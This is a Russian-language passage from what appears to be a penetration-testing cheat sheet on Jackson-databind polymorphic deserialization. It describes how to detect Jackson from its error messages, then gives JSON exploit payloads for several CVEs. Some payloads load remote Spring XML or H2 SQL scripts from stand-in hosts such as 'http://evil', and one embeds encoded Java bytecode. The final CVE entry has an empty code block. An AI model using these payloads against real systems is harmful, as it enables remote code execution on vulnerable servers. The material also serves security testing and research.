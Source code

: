 * **Jackson**

> Jackson — популярная библиотека Java для работы с данными JSON (JavaScript Object Notation). 
>
>Jackson-databind поддерживает полиморфную обработку типов (PTH), ранее известную как «полиморфная десериализация», которая по умолчанию отключена.
>> Полиморфная десериализация позволяет указать произвольный тип объекта, который будет создан при десериализации, даже если этот тип не ожидался приложением.

* Чтобы определить, использует ли бэкенд Jackson, наиболее распространённым способом является отправка недопустимого JSON-кода и проверка сообщения об ошибке. 

Любой из следующих вариантов:

``Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object``
  * com.fasterxml.jackson.databind
  * org.codehaus.jackson.map


**Эксплуатация**

  * CVE-2017-7525
```json
{
  "param": [
    "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    {
      "transletBytecodes": [
        "yv66v[JAVA_CLASS_B64_ENCODED]AIAEw=="
      ],
      "transletName": "a.b",
      "outputProperties": {}
    }
  ]
}
```
  * CVE-2017-17485
```json
{
  "param": [
    "org.springframework.context.support.FileSystemXmlApplicationContext",
    "http://evil/spel.xml"
  ]
}
```
  * CVE-2019-12384
```json
[
  "ch.qos.logback.core.db.DriverManagerConnectionSource", 
  {
    "url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"
  }
]
```
  * CVE-2020-36180
```json
[
  "org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS",
  {
    "url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://evil:3333/exec.sql'"
  }
]
```
CVE-2020-9548
```json
```
